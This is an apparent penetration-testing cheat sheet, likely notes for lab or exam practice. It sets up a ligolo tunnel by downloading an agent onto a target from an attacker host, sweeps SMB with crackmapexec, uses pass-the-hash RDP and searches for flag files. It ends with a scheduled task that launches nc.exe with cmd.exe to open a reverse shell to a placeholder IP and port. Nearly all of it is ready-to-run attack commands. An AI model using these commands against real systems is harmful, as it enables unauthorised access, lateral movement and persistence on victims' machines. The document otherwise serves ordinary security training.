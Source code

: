 start ligolo
```
./proxy -selfcert
```

on target
download
```
iwr -uri http://<IP>:<PORT>/agent.exe -Outfile agent.exe
```
start ligolo
```
.\agent.exe -connect <IP>:11601 -ignore-cert
```

listeners:

```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:80
```

testing: 
```
crackmapexec smb 10.10.164.0/24 
```

##### chisel


### RDP

```
xfreerdp /v:<ip> /u:<user> /d:. /pth:<hash>

xfreerdp /v:<ip> /u:<user>
```

### search file

powershell
```
Get-ChildItem -Path C:\ -File -Recurse -ErrorAction SilentlyContinue -Filter "local.txt"
```

cmd
```
dir C:\local.txt /s
```

### schedule task

```
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe IP PORT -e cmd.exe`""

Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"

Start-ScheduledTask -TaskName "GrantPerm"
```
